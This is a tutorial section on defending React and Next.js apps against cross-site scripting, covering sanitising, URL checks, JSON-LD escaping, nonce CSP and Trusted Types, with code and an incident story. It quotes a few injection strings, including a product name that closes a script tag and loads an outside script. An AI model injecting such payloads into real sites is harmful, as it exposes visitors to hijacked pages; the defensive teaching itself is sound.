

## 73.7 XSS from the frontend side: React escaping, `dangerouslySetInnerHTML`, CSP and Trusted Types

#### Concept

Cross-site scripting (XSS) is attacker-controlled data becoming code in your page. Part 82.21 covered it from the API's side: classify fields as plain or rich text, sanitise rich text with an allow-list, and send CSP as a backstop. This section is about the frontend, where the code actually runs.

React gives you a strong default: **text you interpolate in JSX is escaped**. `<p>{order.note}</p>` with a note of `` renders those characters as text. So XSS in a React app does not come from ordinary rendering; it comes from a short list of **sinks**, places where a string is turned into HTML, a URL or code:

| Sink | Example | Why it is dangerous |
|---|---|---|
| `dangerouslySetInnerHTML` | `<div dangerouslySetInnerHTML={{ __html: review.body }} />` | Raw HTML, including event handlers |
| URL attributes | `<a href={profile.website}>` with `javascript:alert(1)` | Runs on click; React 18 only warns in development, React 19 blocks `javascript:` URLs at render |
| DOM APIs through refs | `ref.current.innerHTML = ...`, `insertAdjacentHTML` | Bypasses React entirely |
| Code from strings | `eval`, `new Function`, `setTimeout('...')` | Executes text |
| Inline `<script>` in server rendering | JSON-LD built with `JSON.stringify(product)` | `</script>` in data closes the tag early |
| Navigation | `window.location.href = params.get('next')` | `javascript:` URLs, and open redirects (73.9) |
| Libraries | Markdown renderers with raw HTML enabled, chart tooltips, rich-text editors | They use `innerHTML` internally |

Two browser features turn "we were careful" into "the browser enforces it": **Content Security Policy** (CSP), which decides which scripts may run, and **Trusted Types**, which makes the dangerous DOM sinks refuse plain strings.

#### Why does it exist?

XSS is the attack that defeats almost every other control in this Part. It can ride `HttpOnly` sessions (73.1), read CSRF tokens from the page (73.6), click hidden buttons and change what the user sees. Escaping by default made XSS rarer, not impossible, and modern apps add sinks constantly: a CMS for marketing banners, markdown in product descriptions, HTML emails previewed in a support console, structured data for SEO. Each one is a place where one forgotten sanitiser call becomes a stored XSS on a page thousands of customers load.

#### Mental model

Imagine a printing press that sets every customer's text in a glass frame (React escaping): it can be read, never obeyed. `dangerouslySetInnerHTML` removes the glass for one frame. Sanitising is checking that frame's text before removing the glass. CSP is a rule at the door of the print shop that only staff with today's badge (a nonce) may give instructions. Trusted Types is a rule that the glass can only be removed by one named supervisor who always checks first.

#### How it works

**Sanitise at the sink.** When you must render HTML, pass it through an HTML sanitiser such as DOMPurify (version 3) immediately before rendering, with a named configuration. Sanitising on input at the API (39.21) is good; sanitising at the sink is mandatory, because data reaches the browser from more places than one API endpoint.

**Validate URLs by scheme.** Allow `https:` and `mailto:`, perhaps `http:`; reject everything else, including `javascript:`, `data:` and `vbscript:`. Parse with `new URL()`; do not use regular expressions on raw strings.

**Escape inline JSON.** When server-rendering `<script type="application/ld+json">`, replace `<` with `<` so the data can never contain `</script>`. The Next.js documentation's JSON-LD example does exactly this.

**Strict CSP with nonces.** A nonce is a random value generated per response. The policy says "only scripts carrying this nonce may run", and `'strict-dynamic'` lets those trusted scripts load further chunks. An injected `<script>` or `onerror` handler has no nonce and is blocked. In the Next.js App Router, middleware generates the nonce, sets the CSP header, and passes the policy to rendering through a request header; Next.js reads the nonce from it and adds it to its own framework and page scripts.



The cost: a nonce must be different on every response, so **every page that uses it is rendered dynamically**. Static generation, ISR (71.2) and the Full Route Cache cannot serve a per-request nonce. For a storefront whose product pages are ISR, that is a real tradeoff. Options are a nonce-based policy on dynamic and account pages only, a hash-based policy for static pages (Next.js 15 added experimental Subresource Integrity support, `experimental.sri`, to generate hashes at build time), or a weaker allow-list policy on cached marketing pages while the strict one protects pages with sessions.

**Report first.** Ship `Content-Security-Policy-Report-Only` for two to four weeks, collect violations at a reporting endpoint, fix legitimate ones, then enforce. Part 82.33 showed this rollout for helmet; the browser side is the same.

**Trusted Types.** With the CSP directive `require-trusted-types-for 'script'`, the browser makes sinks like `innerHTML` and `eval` throw when given a plain string. Code must pass a `TrustedHTML` object created by a named policy (`trustedTypes.createPolicy('sanitize', { createHTML: (s) => DOMPurify.sanitize(s) })`), and the `trusted-types` directive lists which policy names may exist. Every sink in the app, including those inside libraries, now goes through a function you can review. Support arrived in Chromium in 2020 and in other engines more recently; check current support before relying on it, and treat it as an enforcement layer that older browsers simply do not apply. Start with `Content-Security-Policy-Report-Only: require-trusted-types-for 'script'` to find every sink.

#### Practical example

A product page renders: the product name and description (description is markdown from the merchant CMS), customer reviews (plain text), a "visit the maker's website" link (merchant-supplied URL), and JSON-LD for search engines. The name and reviews are plain JSX text. The description is converted from markdown with raw HTML disabled, then sanitised. The website link passes through `safeHref`. The JSON-LD is escaped. CSP is enforced on account and checkout pages with nonces, and report-only on ISR product pages until the hash-based option is ready.

#### React / Next.js example

The three helpers every codebase should have exactly once:

```tsx
// apps/web/src/security/safe-render.tsx
import DOMPurify from 'isomorphic-dompurify';             // DOMPurify that also runs during server rendering

const PROFILE = { USE_PROFILES: { html: true }, FORBID_TAGS: ['style', 'form'], FORBID_ATTR: ['style'] };

export function SafeHtml({ html, className }: { html: string; className?: string }) {
  // The only component allowed to use dangerouslySetInnerHTML; an ESLint rule bans it elsewhere.
  return <div className={className} dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(html, PROFILE) }} />;
}

export function safeHref(raw: string | null | undefined): string | undefined {
  if (!raw) return undefined;
  try {
    const url = new URL(raw, 'https://shop.example');     // relative links resolve against our origin
    return ['https:', 'http:', 'mailto:'].includes(url.protocol) ? url.toString() : undefined;
  } catch {
    return undefined;                                      // unparseable: render no link at all
  }
}

export function JsonLd({ data }: { data: unknown }) {
  // '<' becomes < so a product named "</script><script>..." cannot close the tag.
  const json = JSON.stringify(data).replace(/</g, '\\u003c');
  return <script type="application/ld+json" dangerouslySetInnerHTML={{ __html: json }} />;
}
```

The CSP helper that middleware calls, following the pattern in the Next.js documentation:

```ts
// apps/web/lib/csp.ts  (called from middleware.ts, Next.js 14 Edge runtime; 81.10 shows the caller)
import { NextResponse, type NextRequest } from 'next/server';

export function withCsp(req: NextRequest): NextResponse {
  const nonce = btoa(crypto.randomUUID());
  const csp = [
    `default-src 'self'`,
    `script-src 'self' 'nonce-${nonce}' 'strict-dynamic'`,
    `style-src 'self' 'nonce-${nonce}'`,
    `img-src 'self' https://images.shop.example data:`,
    `connect-src 'self' https://rum.shop.example`,     // where scripts may send data: limits exfiltration
    `frame-ancestors 'none'`,                           // clickjacking (81.9)
    `form-action 'self'`,
    `base-uri 'none'`,
    `object-src 'none'`,
    `report-to csp`,
  ].join('; ');
  const requestHeaders = new Headers(req.headers);
  requestHeaders.set('x-nonce', nonce);
  requestHeaders.set('Content-Security-Policy', csp);  // Next.js reads the nonce from here while rendering
  const res = NextResponse.next({ request: { headers: requestHeaders } });
  res.headers.set('Content-Security-Policy', csp);
  res.headers.set('Reporting-Endpoints', 'csp="https://shop.example/api/csp-reports"');
  return res;
}
```

A server component that renders its own inline script reads the nonce with `headers().get('x-nonce')` (in Next.js 15 and later, `(await headers()).get('x-nonce')`) and passes it to `next/script` as the `nonce` prop. The middleware matcher for CSP should skip static files and prefetch requests (the Next.js docs exclude requests carrying the `next-router-prefetch` header), otherwise every image pays for a nonce it does not use. Add `'unsafe-eval'` to `script-src` only in development, where React's tooling needs it, never in production.

#### Backend side (NestJS)

The API's part of frontend XSS defence:

- **Send text, not HTML, wherever possible.** `description` as markdown or plain text, with the client choosing how to render it. If the API must send HTML, sanitise it with the same named policy as the client and name the field `descriptionHtml`, so nobody renders it as text or, worse, renders a text field as HTML.
- **JSON responses with `Content-Type: application/json` and `X-Content-Type-Options: nosniff`**, so a browser never interprets an API response as an HTML page (39.33).
- **Serve user uploads from another registrable domain** (`shopusercontent.example`) with `Content-Disposition: attachment` for anything not an image, so an uploaded SVG or HTML file is never same-origin script (72.8, 22.30).
- **Collect CSP reports** without letting the collector become a denial-of-service target:

```ts
// apps/api/src/security/csp-report.controller.ts
import { Body, Controller, Header, HttpCode, Logger, Post } from '@nestjs/common';
import { Throttle } from '@nestjs/throttler';

@Controller('csp-reports')
export class CspReportController {
  private readonly log = new Logger('CSP');

  @Post()
  @HttpCode(204)
  @Throttle({ default: { limit: 30, ttl: 60_000 } })     // per client: reports arrive in bursts from one bad page
  @Header('Cache-Control', 'no-store')
  receive(@Body() body: unknown): void {
    // Reporting API sends an array of { type: 'csp-violation', url, body: { blockedURL, effectiveDirective, ... } }.
    const reports = Array.isArray(body) ? body.slice(0, 20) : [body];
    for (const r of reports as Array<{ url?: string; body?: Record<string, unknown> }>) {
      this.log.warn({ page: r.url, directive: r.body?.effectiveDirective, blocked: r.body?.blockedURL }, 'csp violation');
    }
  }
}
```

The body parser must accept `application/reports+json` (Reporting API) and `application/csp-report` (the older `report-uri` format) for this route; in Express that is `express.json({ type: ['application/json', 'application/reports+json', 'application/csp-report'], limit: '64kb' })`. Most violations come from browser extensions; alert on a spike for one page and directive, not on the total.

#### Production scenario

A fashion retailer with 3 million monthly visitors rolled out a strict nonce CSP on account, cart and checkout pages. Report-only mode produced about 6,000 violations a day: 82 % from browser extensions, 15 % from an old inline A/B test snippet that was moved into a nonced script, and 3 % from a chat widget that injected inline styles and needed `style-src` adjustments. Enforcement shipped after three weeks. Turning those pages from static to dynamic rendering added 35 ms to median TTFB, which the team accepted for pages that were personalised anyway. Product pages stayed ISR with a report-only policy and a weekly review.

#### Failure scenario

At 21:10 a search engine's crawler alert showed that product pages for one merchant were redirecting to a gambling site. The merchant had named a product `Espresso Cup</script><script src=//cdn-assets.example/x.js></script>`. The product page built JSON-LD with `JSON.stringify(product)` inside `dangerouslySetInnerHTML`, without escaping `<`. The string closed the JSON-LD script tag and opened the attacker's. The pages were ISR, so the poisoned HTML was cached at the CDN and served to every visitor, about 41,000 page views in 90 minutes, until the merchant was disabled and the paths revalidated.

The fix was the `JsonLd` helper above, an ESLint rule (`react/no-danger` with an exception list of one file), product-name validation at the API (no `<` or `>` in names, which no real product needed), and a report-only CSP on product pages, which would have produced violation reports from the first page view.

#### Edge cases & failure modes

- **Markdown with raw HTML enabled** (`rehype-raw` in the remark and rehype ecosystem) silently reintroduces HTML injection.
- **Sanitiser configuration drift**: two components with different DOMPurify options. One `SafeHtml`, one profile.
- **Mutation XSS**: HTML that is safe when sanitised but changes meaning when the browser re-parses it; keep DOMPurify current, because its releases fix these.
- **`href` set through a ref** or a third-party link component skips React's URL handling.
- **`postMessage` handlers** that write `event.data` into the DOM without checking `event.origin` (73.9).
- **Nonce leakage**: a nonce reused across responses (cached HTML) is as good as no nonce; dynamic rendering is the price.
- **CSP in a `<meta>` tag** cannot use `frame-ancestors` or reporting; send it as a header.

#### How a Senior Full-Stack Engineer thinks about this

The senior counts sinks. They keep one sanitised HTML component, one URL helper and one JSON-in-script helper, and enforce them with lint rules, so a reviewer can find every dangerous line with one search. They treat CSP as a project with a report-only phase, accept dynamic rendering where pages hold sessions, and are explicit about which pages run a weaker policy and why. They see Trusted Types as the long-term way to make sinks impossible to misuse, and they adopt it in report-only mode first. And they remember XSS is a full-stack bug: the API decides whether HTML or text crosses the wire.

#### Common mistakes

- **`dangerouslySetInnerHTML` "just for line breaks"**; use CSS `white-space: pre-line` instead.
- **Trusting `href` values** from users or merchants without checking the scheme.
- **`JSON.stringify` into a `<script>`** without escaping `<`.
- **CSP with `'unsafe-inline'`** in `script-src`, which disables its XSS protection.
- **Assuming a static nonce works with ISR or a CDN cache.**

#### Interview questions

1. **React escapes output. How do XSS bugs still happen in React apps?** Expected answer: through sinks: `dangerouslySetInnerHTML`, URL attributes, refs and DOM APIs, inline script during SSR, libraries using `innerHTML`, navigation to user URLs. Follow-up: how do you find them in a codebase? (Lint rules and a search for the sinks.)
2. **How does a nonce-based CSP with `'strict-dynamic'` work, and what does it cost in Next.js?** Expected answer: per-response nonce on trusted scripts, which may load more; injected scripts lack it. It forces dynamic rendering, so no static or ISR caching of those pages.
3. **What are Trusted Types?** Expected answer: a CSP-enforced mode where DOM sinks accept only typed objects created by named policies, making every sink go through reviewed code.
4. **How would you roll out CSP on an existing storefront?** Expected answer: report-only, collect and classify, fix, enforce per page group, keep monitoring.
5. **Why serve user uploads from a separate domain?** Expected answer: an uploaded HTML or SVG file on your origin is same-origin script; a separate registrable domain makes it cross-site.

#### Practical exercise

Add `SafeHtml`, `safeHref`, `JsonLd` and a report-only CSP to the product and account pages.

Acceptance criteria:

- A product named `</script><script>alert(1)</script>` renders as text and the JSON-LD stays valid.
- A merchant website of `javascript:alert(1)` renders no link.
- `react/no-danger` fails the lint for any `dangerouslySetInnerHTML` outside `safe-render.tsx`.
- With the CSP enforced on `/account`, an inline script injected through DevTools does not run, and a violation report reaches the collector.
- The account pages' TTFB change after enabling nonces is measured and recorded.
